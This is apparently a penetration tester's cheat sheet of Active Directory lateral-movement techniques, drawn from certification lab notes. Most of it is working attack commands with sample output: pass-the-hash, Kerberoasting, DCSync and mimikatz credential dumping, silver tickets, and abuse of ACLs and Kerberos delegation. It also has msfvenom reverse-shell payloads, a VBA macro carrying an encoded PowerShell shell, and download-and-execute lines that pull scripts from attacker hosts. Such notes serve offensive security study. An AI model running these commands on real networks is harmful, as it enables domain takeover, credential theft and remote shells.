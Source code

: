 # Lateral Movement

<details>

<summary>Admin Password Reuse</summary>

Using crackmapexec:

```bash
└─# crackmapexec smb 10.11.1.20-24 -u administrator -H 'ee0c207898a5bccc01f38115019ca2fb' --local-auth --lsa 
SMB         10.11.1.22      445    SVCLIENT08       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT08) (domain:SVCLIENT08) (signing:False) (SMBv1:True)
SMB         10.11.1.21      445    SV-FILE01        [*] Windows Server 2016 Standard 14393 x64 (name:SV-FILE01) (domain:SV-FILE01) (signing:False) (SMBv1:True)
SMB         10.11.1.24      445    SVCLIENT73       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT73) (domain:SVCLIENT73) (signing:False) (SMBv1:True)
SMB         10.11.1.20      445    SV-DC01          [*] Windows 10.0 Build 17763 x64 (name:SV-DC01) (domain:SV-DC01) (signing:True) (SMBv1:False)
SMB         10.11.1.22      445    SVCLIENT08       [+] SVCLIENT08\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!)
SMB         10.11.1.21      445    SV-FILE01        [-] SV-FILE01\administrator:ee0c207898a5bccc01f38115019ca2fb STATUS_LOGON_FAILURE 
SMB         10.11.1.24      445    SVCLIENT73       [+] SVCLIENT73\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!
```

* Login with impacket psexec using hashes

```bash
impacket-psexec jimmy@192.168.35.142 -hashes ee0c207898a5bccc01f38115019ca2fb
```

</details>

<details>

<summary>Obtain Kerberos Ticket</summary>

* Sync the Kali's timing with the DC timing.

```bash
ntpdate <dc_ip>
```

* To collect the Kerberos Ticket

```bash
impacket-GetUserSPNs hacker.local/Administrator:Password1 -dc-up 192.168.35.142 -request
```

</details>

<details>

<summary>Getting TGT from Service</summary>

For pass the ticket attack

```bash
impacket-GetNPUsers -dc-ip 10.10.10.10 active.htb/SVC-TGS -no-pass
```

</details>

<details>

<summary>Pass the Hash</summary>

* Works only for server or service using NTLM authentication, not Kerberos authentication.
* Requires local administrative permissions.

Retrieve the content of the Windows Security Account Manager (SAM) file to dump client01's hashes.

```sh
reg save hklm\sam c:\windows\temp\sam
```

```sh
reg save hklm\system c:\windows\temp\system
```

```sh
impacket-secretsdump -system system -sam sam local
```

```bash
impacket-secretsdump Hacker.local/hguy:password@192.168.35.144'
```

Connect to victim by passing the hash

```sh
impacket-psexec Administrator:@192.168.199.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```

* hashes in the format: \<LM>:\<NT>
* LM hashes discontinued since Win10

</details>

<details>

<summary>Pass the Hash with Computer Account</summary>

```bash
sekurlsa::pth /user:web01$ /domain:EVIL.COM /ntlm:f4528218862ef1bed4c351d7b10d77fd
```

</details>

<details>

<summary>Kerberoasting</summary>

To obtain TGS-REP hash to crack service accounts passwords.

### Invoke-Kerberoast.ps1

Collects a list of service accounts along with their correlating password hashes

```sh
powershell -ep bypass -c "Import-Module .\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```

### Rubeus.exe

[https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
C:\temp>Rubeus.exe kerberoast
Rubeus.exe kerberoast

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Kerberoasting
...
```

### GetUserSPNs.py

* Good when don't have access to the victim
* On the attacker:

```bash
GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

NXC Kerberoasting (Using kerberos auth)

```
nxc ldap dc1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --kerberoasting hash
```

### Cracking Hashes

```sh
hashcat -m 13100 -a 0 kerb.txt /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Overpass the Hash</summary>

* “Over” abuse a NTLM user hash to gain a full Kerberos Ticket Granting Ticket or service ticket
* Requires local admin rights

1. Obtain the NTLM hash first&#x20;

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

2. Creates a new PowerShell process in the context of the Jeff\_Admin user

```
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

3. Inside the new Powershell session, generate a TGT by authenticating to a network share on the domain controller.&#x20;

```powershell
net use \\dc01
```

* We used "net use" arbitrarily in this example but we could have used any command that requires domain permissions and would subsequently create a TGS.

```
klist
```

4. Since we have generated Kerberos tickets and operate in the context of Jeff\_Admin in the PowerShell session, we may reuse the TGT to obtain code execution on the domain controller

```
.\PsExec.exe \\dc01 cmd.exe
```

</details>

<details>

<summary>Pass the Ticket</summary>

Takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service.

1. Obtain Domain SID

```sh
whoami /user
# Output: S-1-5-21-1602875587-2787523311-2599479668-1103
# Domain-SID: S-1-5-21-1602875587-2787523311-2599479668
```

2. Either obtain NTLM hash or generate hash from password using [https://www.browserling.com/tools/ntlm-hash](https://www.browserling.com/tools/ntlm-hash)

2) Use Mimikatz

```bash
.\mimikatz.exe
kerberos::purge
kerberos::list
```

* Ensure that no kerberos ticket is present

```bash
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

* To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.

```
kerberos::list
```

3. Now that we have this ticket loaded into memory, we can interact with the service and gain access to any information based on the group memberships we put in the silver ticket.

</details>

<details>

<summary>NTDSam</summary>



</details>

<details>

<summary>DCSync</summary>

### From Bloodhound:

![](<../.gitbook/assets/image (140).png>)

### Using Secretsdump

```bash
secretsdump.py -just-dc svc_loanmgr@10.10.10.175 -outputfile dcsync_hashes
#Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

#Password:
#[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
#[*] Using the DRSUAPI method to get NTDS.DIT secrets
#Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

### Using Mimikatz (Powershell)

* Download Invoke-Mimikatz.ps1 from [here](https://github.com/phra/PowerSploit/raw/4c7a2016fc7931cd37273c5d8e17b16d959867b3/Exfiltration/Invoke-Mimikatz.ps1)

```bash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:administrator"'
# OR
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator"'
```

</details>

<details>

<summary>Cracking Mscash (Cached Domain Credentials)</summary>

[https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

```bash
secretsdump.py administrator@172.16.197.11 -hashes :f1014ac49bae005ee3ece5f47547d185 
# MEDTECH.COM/Administrator:$DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# MEDTECH.COM/yoshi:$DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# MEDTECH.COM/wario:$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
```

### Format into $DCC2$10240#username#hash format for hashcat&#x20;

```bash
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 medtech_hashes
# $DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# $DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# $DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
# $DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c
```

### Crack with Hashcat

```bash
hashcat -m 2100 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>WriteDacl (Bloodhound)</summary>

* Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

#### On Victim:

```bash
*Evil-WinRM* PS C:\temp> Bypass-4MSI
Info: Patching 4MSI, please be patient...
[+] Success!

*Evil-WinRM* PS C:\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.4/PowerView.ps1')

*Evil-WinRM* PS C:\temp> net user john abc123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net group "Exchange Windows Permissions" john /add
# Needed cuz based on bloodhound, exhange windows permissions group has writedacl privileges for domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net localgroup "Remote Management Users" john /add
The command completed successfully.

*Evil-WinRM* PS C:\temp> $pass = convertto-securestring 'abc123!' -asplain -force
*Evil-WinRM* PS C:\temp> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\temp> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

#### On Attacker:

```bash
secretsdump.py htb/john@10.10.10.161
# [*] Using the DRSUAPI method to get NTDS.DIT secrets
# htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

</details>

<details>

<summary>Distributed Component Object Model</summary>

* is a system for creating software components that interact with each other within or across processes.

- Requires Local admin (to call the DCOM Service Control Manager)
- Requires port 135, 445
- Requires Microsoft office to be installed on target

1. Create an instance of the Object on the target

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
```

2. Check the available methods for the object

```powershell
$com | Get-Member
```

* If it has the `Run` method, attacker is able to execute Visual Basic for Applications (VBA) macro remotely.

3. Generate Reverse shell payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
```

4. Extract from the generated payload, the line starting with `powershell.exe -nop -w hidden -e` followed by the Base64 encoded payload and use the simple Python script to split the command into smaller chunks (ensuring that the literal strings limit in Excel macros is met.)

```python
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

5. Put the reverse shell payload into macro

```vba
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

* Save the file in `Excel 97-2003 Workbook` format.

6. Transfer the file over to target using SMB, open the excel file and run the macro.

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

$RemotePath = "\\192.168.1.110\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")

```

</details>

<details>

<summary>Dump Domain Admin Hash from DC</summary>

```bash
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:prod.corp1.com /user:prod\administrator
evil-winrm  -i 192.168.70.70 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
```

</details>

<details>

<summary>Change Domain Admin password</summary>

* From high privilege shell
* Changes the password to `password`

```sh
net user /domain administrator password
```

</details>

<details>

<summary>Open CMD Prompt as Another User</summary>

```bash
runas /user:corp\jen powershell.exe
```

</details>

## OSEP Notes below

<details>

<summary>Stealing Keytab files (Linux AD)</summary>

* Contains a kerberos principal name & encrypted keys
*   ```bash
    kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
    ```


* Verify that tickets from keytab have been loaded && renew tickets
  *   ```bash
      klist
      kinit -R
      ```


* Remove all kerberos tickets
  * ```bash
    kdestroy
    ```

</details>

<details>

<summary>Stealing Credential Cache Files (Linux AD)</summary>

* Check for presence with&#x20;
  *   ```bash
      ls -al /tmp/krb5cc_*
      ```

      If not present but has domain user on linux box --> try to [ssh into that domain user](../services/22-ssh.md#ssh-persistency) (add attacker's SSH public key to domain user authorized host & ssh as domain user) and `ls -la /tmp/krb5cc_*`
* Copy credential cache files to Kali
  *   ```bash
      scp root@linuxvictim:/tmp/krb5cc_607000500_qZWKpe .
      #scp -i  ssh_key pete@complyedge.com@web05:/tmp/krb5cc_75401103_PlYU68 .
      ```


* Set environment variable on Kali
  *   ```bash
      export KRB5CCNAME=/home/kali/Documents/offsec/linux_lateral_movement/krb5cc_607000500_qZWKpe
      ```


*   Install the following, if required

    * ```bash
      sudo apt install krb5-user
      ```


* Add target DC and generic domain to /etc/hosts
  *

      <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* IMPT: THE SOURCE OF THE KERBEROS REQUEST MATTERS!!! --> SET UP [LIGOLO-NG!](../post-exploitation/port-forwarding-pivoting.md#ligolo-ng)
* Then, can
  * <pre class="language-bash"><code class="lang-bash"><strong>impacket-psexec Administrator@DC01.CORP1.COM -k -no-pass
    </strong></code></pre>

</details>

<details>

<summary>Creating Keytab files (Linux AD)</summary>

* Create in /tmp/administrator.keytab
* ```bash
  ktutil
  addent -password -p administrator@CORP1.COM -k 1 -e rc4-hmac
  wkt /tmp/administrator.keytab
  quit
  ```

</details>

<details>

<summary>Creating Credential Cache Files (Linux AD)</summary>

* Acquire TGT for current user
  *   ```bash
      kinit
      ```


* List tickets currently stored in user's credential cache file
  *   ```bash
      klist
      ```


* Get a list of available SPN from DC
  *   ```bash
      ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName
      ```


* Request a service ticket from Kerberos for MSSQL SPN
  * ```bash
    kvno MSSQLSvc/DC01.corp1.com:1433
    ```

</details>

<details>

<summary>Abusing GenericAll</summary>

## For Domain User

* Change password of an account
  *   ```powershell
      net user testservice1 P@ssw0rd /domain
      ```


* Spawn new powershell.exe in context of testservice1
  *   ```powershell
      runas /user:prod\testservice1 powershell.exe
      ```



## For Domain Group

* ```powershell
  net group testgroup offsec /add /domain
  ```

</details>

<details>

<summary>Exploiting WriteDACL</summary>

* Can add new access rights like GenericAll, GenericWrite, or even DCSync
*

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* Adding GenericAll rights:
  *   ```powershell
      # Might need to migrate to sqlsvc process using metasploit

      # Load PowerView
      iex (new-object net.webclient).downloadstring('http://192.168.45.215/PowerView.ps1')

      # Modify sqlsvc to have full control over the mailadmins group
      Add-DomainObjectAcl -Rights 'All' -TargetIdentity "mailadmins" -PrincipalIdentity "sqlsvc"

      # Add sqlsvc to mailadmins domain group
      net group "mailadmins" sqlsvc /add /domain

      # Verify that sqlsvc is inside mailadmins group
      net user sqlsvc /domain
      ```



OR.. ![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png>)

```powershell
#Current user is svc-alfresco
net user bill P@ssw0rd123! /add /domain
net group "Exchange Windows Permissions" bill /add
net localgroup "Remote Management Users" bill /add

iex (new-object net.webclient).downloadstring('http://10.10.14.20/PowerView.ps1')
$pass = convertto-securestring 'P@ssw0rd123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\bill', $pass)
Add-ObjectACL -PrincipalIdentity bill -Credential $cred -Rights DCSync
```

</details>

<details>

<summary>Exploiting GenericWrite on Another User</summary>

### Set Login Script for victim user

* Generate using [csharp\_shellcode python script](../good-exploit-code/c-shellcode-runner.md#process-injector-example)

```powershell
# Load PowerView
iex (new-object net.webclient).downloadstring('http://192.168.45.218/PowerView.ps1')

# Setup SMB server
sudo python3 /usr/local/bin/smbserver.py share . -smb2support

# Logon Script to point to rev shell exe
Set-DomainObject -Identity SHAUN.BLAKE -Set @{'scriptpath'='\\192.168.45.218\share\ProcessInjection.exe'}
```

### Cracking User's Password

* Able to set a service principal name and kerberoast that account
  *   ```powershell
      wget https://raw.githubusercontent.com/ShutdownRepo/targetedKerberoast/refs/heads/main/targetedKerberoast.py
      ./targetedKerberoast.py --dc-ip '192.168.170.70' -v -d 'prod.corp1.com' -u 'offsec' -p 'lab'
      ```


* Obtain TGS-REP hash
  *   ```bash
      hashcat -m 13100 hash.txt rockyou.txt
      ```



</details>

<details>

<summary>Exploiting GenericWrite on Computer Object (Including DC)<br></summary>

OR USE [RBCD FROM KALI ATTACKER MACHINE!!](lateral-movement.md#resource-based-constrained-delegation)

![](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* Enumerating permissions assigned to current user
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```


  * Since we have GenericWrite on appsrv01, we can update any non-protected property on that object, including msDS-AllowedToActOnBehalfOfOtherIdentity and add the SID of a different computer.

- <pre class="language-powershell"><code class="lang-powershell">iex (new-object net.webclient).downloadstring('http://192.168.45.206/Powermad.ps1')
  iex (new-object net.webclient).downloadstring('http://192.168.45.206/PowerView.ps1')

  # Create a fake computer account
  New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
  Get-DomainComputer -Identity myComputer

  # Get the SID of myComputer$
  $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid

  # Create a Security Descriptor for RBCD
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

  # Convert and Apply the Security Descriptor to appsrv01
  $SDbytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDbytes,0)
  Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

  # Verify That RBCD Was Configured
  $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
  $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
  $Descriptor.DiscretionaryAcl

  # Verify the SID Mapping
  ConvertFrom-SID S-1-5-21-634106289-3621871093-708134407-3601

  # Generate an NTLM Hash for myComputer$
  .\Rubeus.exe hash /password:h4x

  # Request a Ticket Granting Service (TGS) Ticket Using Rubeus
  .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt

  # Verify Remote Access to appsrv01
  dir \\appsrv01.prod.corp1.com\c$

  # Obtaining code execution
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=80 EXITFUNC=thread -f exe -o shell.exe
  copy shell.exe \\appsrv01.prod.corp1.com\C$\Windows\Temp\shell.exe
  wmic /node:appsrv01.prod.corp1.com process call create "C:\Windows\Temp\shell.exe"

  <strong>#OR 
  </strong>
  python3 mkpsrevshell.py 192.168.45.222 443
  wmic /node:appsrv01.prod.corp1.com process call create "powershell -e JABjAG.."

  </code></pre>

</details>

<details>

<summary>Exploiting ForceChangePassword</summary>

<figure><img src="../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>

Currently, pwned adminwebsvc@final.com --> part of webadmins grp --> able to ForceChangePassword for Nina

```powershell
iex(new-object net.webclient).downloadstring('http://192.168.45.160/PowerView.ps1')	
$NewPassword = ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force
Set-DomainUserPassword -Identity Nina -AccountPassword $NewPassword
```

</details>

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

```powershell
Import-Module powerview.ps1
Get-DomainComputer -Unconstrained
# Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
```

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
        *   ```powershell
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 krbrelayx.py -aesKey python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11) (1) (1) (1).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  * ```sql
    EXECUTE AS LOGIN = 'sa';
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {
          $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_
      } | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      ```


  * If faced `Kerberos SessionError: KRB_AP_ERR_BADMATCH(Ticket and authenticator don't match)` error, use the following commands:

```bash
# Solving KRB_AP_ERR_BADMATCH error
impacket-getTGT 'cowmotors-int.com/myComputer$'
export KRB5CCNAME=myComputer\$.ccache
impacket-getST -spn cifs/web01.cowmotors-int.com -impersonate administrator -k -no-pass 'cowmotors-int.com/myComputer$'
```

* Use ccache file
  * ```
